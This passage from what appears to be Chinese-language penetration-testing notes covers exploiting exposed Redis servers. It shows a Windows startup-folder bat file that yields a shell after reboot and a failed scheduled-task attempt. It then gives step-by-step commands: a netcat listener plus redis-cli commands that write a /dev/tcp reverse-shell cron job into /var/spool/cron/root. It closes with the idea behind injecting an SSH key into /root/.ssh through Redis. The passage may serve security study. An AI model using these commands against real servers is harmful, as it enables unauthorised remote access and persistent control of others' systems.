 <img width="1269" alt="image" src="https://github.com/reidmu/sec-note/assets/84888757/2437c06b-6dfb-4de3-8e1d-6658d5782fb0">


4）可以看到目标机的启动项下成功创建 cs.bat 文件


<img width="858" alt="image" src="https://github.com/reidmu/sec-note/assets/84888757/cfd98fd6-abf9-4a3f-9a0c-ddff576487c9">




5）重启之后，获得shell

![image](https://user-images.githubusercontent.com/84888757/173838982-371d39a1-aa66-4aa1-8823-f570eda63e45.png)


### 3、计划任务（失败）
问题记录：

- windows在命令行执行计划任务，会将任务名`shell`保存至`C:/Windows/System32/Tasks`文件夹下，shell文件中正常会是个`xml`文件，而通过写文件的方式，只是将创建计划任务的命令写入文件`shell`中，如何执行命令？
- 按如下步骤写入`bat`文件和计划任务命令行文件，发现`bat`文件中包括了`powershell`一句话以及计划任务命令？？？
- 考虑写计划任务那一步直接写入xml文件？


## 4.2 Linux
### 4.2.1 利用crontab 计划任务反弹shell
条件：centos

原因:
**这是由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划，而ubuntu并不会忽略这些乱码，所以导致命令执行失败**

（1）使用vps进行监听：
```bash
nc -lvvp 1234
```

（2）进入redis命令执行界面，写入反弹shell： `redis-cli -h 靶机ip`
```bash
auth 密码			# 若不是未授权，可使用此条命令进行弱口令登录；若是未授权漏洞则忽略此条命令。

# 星号表示的是计划任务的时间
set test "\n* * * * * /bin/bash -i >& /dev/tcp/攻击方ip/1234 0>&1\n"

config set dir /var/spool/cron/
config set dbfilename root

save
```
过一分钟左右可以收到反弹的shell，但是这里需要注意的是，只适用于centos上开启的服务，ubuntu上不行。

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637572431899-c75dd18b-f97b-444b-bb72-a74fcfbd584a.png#clientId=u9e20ed45-5375-4&from=paste&height=100&id=u8a507155&margin=%5Bobject%20Object%5D&name=image.png&originHeight=133&originWidth=548&originalType=binary&ratio=1&size=37591&status=done&style=none&taskId=uea136dec-6dce-4db4-ba52-ae08d70cce0&width=411)

### 4.2.2 SSH密钥登录
#### 1、漏洞原理
在数据库中插入一条数据，将本机的公钥作为value，key值随意，然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys，把缓冲的数据保存在文件里，这样就可以在靶机端的/root/.ssh下生成一个授权key
